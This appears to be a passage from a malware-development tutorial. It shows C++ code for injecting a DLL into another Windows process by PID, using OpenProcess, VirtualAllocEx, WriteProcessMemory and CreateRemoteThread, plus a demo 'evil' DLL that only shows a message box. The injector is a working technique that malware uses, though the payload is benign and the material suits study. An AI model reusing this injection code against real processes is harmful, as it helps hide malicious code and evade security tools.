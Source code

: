 ```cpp
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As usual, for simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
